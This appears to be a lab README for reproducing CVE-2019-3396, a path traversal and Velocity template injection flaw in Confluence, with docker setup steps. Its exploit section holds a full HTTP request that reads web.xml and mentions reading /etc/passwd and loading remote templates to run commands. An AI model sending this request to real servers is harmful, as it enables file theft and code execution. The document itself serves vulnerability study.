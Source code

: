 # Atlassian Confluence Path Traversal and Command Execution Vulnerability (CVE-2019-3396)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

An unauthorized directory traversal vulnerability exists before version 6.14.2 of Atlassian Confluence, which an attacker can read arbitrary files or execute arbitrary commands using Velocity template injection.

Reference:

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## Vulnerability Environment

Start a Confluence Server 6.10.2 by executing the following command.

```
docker-compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian:

![](1.png)

Then just click Next to install. This step of small memory VPS may fail to install or take a long time (it is recommended to use a machine with more than 4G memory for installation and testing), please wait patiently.

If prompted to fill in the cluster node, the path can be filled in with `/home/confluence`.

![](4.png)

You may be asked to fill in the database account password, choose the postgres database, the address is `db`, the account password is `postgres`:

![](5.png)

## Exploit

The file `web.xml` can be read by sending the following packet.

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId": "786458", "macro":{"name": "widget", "body":"", "params":{"url": "https://www.viddler.com/v/23464dc6", "width": "1000"," height": "1000","_template":". /web.xml"}}}
```

![](6.png)

Confluence before 6.12 did not restrict the protocol and path for file reading, we can use `file:///etc/passwd` to read files, or `https://...` to load remote files.

If the file is a Velocity template, and we can execute arbitrary commands via template injection (SSTI):

![](7.png)
